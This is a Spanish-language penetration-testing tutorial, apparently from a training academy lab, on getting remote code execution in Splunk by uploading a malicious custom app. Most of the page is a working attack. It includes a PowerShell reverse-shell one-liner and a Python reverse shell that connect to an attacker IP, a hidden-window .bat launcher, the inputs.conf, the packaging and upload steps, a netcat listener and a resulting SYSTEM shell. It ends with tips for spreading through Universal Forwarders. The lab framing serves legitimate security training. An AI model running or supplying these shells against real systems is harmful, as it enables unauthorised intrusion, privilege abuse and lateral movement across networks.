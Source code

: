 Como se discutió en la sección anterior, podemos obtener ejecución remota de código en Splunk creando una aplicación personalizada para ejecutar scripts en Python, Batch, Bash o PowerShell. A partir del escaneo de descubrimiento de Nmap, notamos que nuestro objetivo es un servidor Windows. Dado que Splunk viene con Python instalado, podemos crear una aplicación personalizada de Splunk que nos proporcione ejecución remota de código utilizando Python o un script de PowerShell.

---

## Abusing Built-In Functionality

Podemos usar [este](https://github.com/0xjpuff/reverse_shell_splunk) paquete de Splunk para ayudarnos. El directorio `bin` en este repositorio tiene ejemplos para [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) y [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Vamos a repasarlo paso a paso.

Para lograr esto, primero necesitamos crear una aplicación personalizada de Splunk utilizando la siguiente estructura de directorios:

```r
tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

El directorio `bin` contendrá cualquier script que pretendamos ejecutar (en este caso, una reverse shell en PowerShell), y el directorio `default` tendrá nuestro archivo `inputs.conf`. Nuestra reverse shell será una línea de comando en PowerShell.

```r
# A simple and small reverse shell. Options and help removed to save space. 
# Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

El archivo [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) le dice a Splunk qué script ejecutar y cualquier otra condición. Aquí configuramos la aplicación como habilitada y le decimos a Splunk que ejecute el script cada 10 segundos. El intervalo siempre está en segundos, y el input (script) solo se ejecutará si esta configuración está presente.

```r
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Necesitamos el archivo .bat, que se ejecutará cuando la aplicación sea desplegada y ejecutará la línea de comando de PowerShell.

```r
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Una vez que los archivos estén creados, podemos crear un tarball o archivo `.spl`.

```r
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

El siguiente paso es elegir `Install app from file` y subir la aplicación.

`https://10.129.201.50:8000/en-US/manager/search/apps/local`

![](https://academy.hackthebox.com/storage/modules/113/install_app.png)

Antes de subir la aplicación personalizada maliciosa, iniciemos un listener usando Netcat o [socat](https://linux.die.net/man/1/socat).

```r
sudo nc -lnvp 443

listening on [any] 443 ...
```

En la página `Upload app`, haz clic en browse, elige el tarball que creamos anteriormente y haz clic en `Upload`.

`https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal`

![](https://academy.hackthebox.com/storage/modules/113/upload_app.png)

Tan pronto como subamos la aplicación, se recibe una reverse shell ya que el estado de la aplicación se cambiará automáticamente a `Enabled`.

```r
sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```
l
En este caso, obtuvimos una shell como `NT AUTHORTY\SYSTEM`. Si esto fuera una evaluación del mundo real, podríamos proceder a enumerar el objetivo en busca de credenciales en el registro, la memoria o almacenadas en otro lugar del sistema de archivos para usarlas en el movimiento lateral dentro de la red. Si este fuera nuestro punto de entrada inicial en el entorno de dominio, podríamos usar este acceso para comenzar a enumerar el dominio de Active Directory.

Si estuviéramos tratando con un host Linux, necesitaríamos editar el script en Python `rev.py` antes de crear el tarball y subir la aplicación maliciosa personalizada. El resto del proceso sería el mismo, y obtendríamos una conexión de reverse shell en nuestro listener de Netcat y estaríamos listos para continuar.

```r
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

Si el host de Splunk comprometido es un servidor de despliegue, probablemente sea posible lograr RCE en cualquier host con Universal Forwarders instalados en ellos. Para enviar una reverse shell a otros hosts, la aplicación debe colocarse en el directorio `$SPLUNK_HOME/etc/deployment-apps` en el host comprometido. En un entorno predominantemente Windows, necesitaremos crear una aplicación utilizando una reverse shell de PowerShell ya que los Universal forwarders no se instalan con Python como el servidor de Splunk.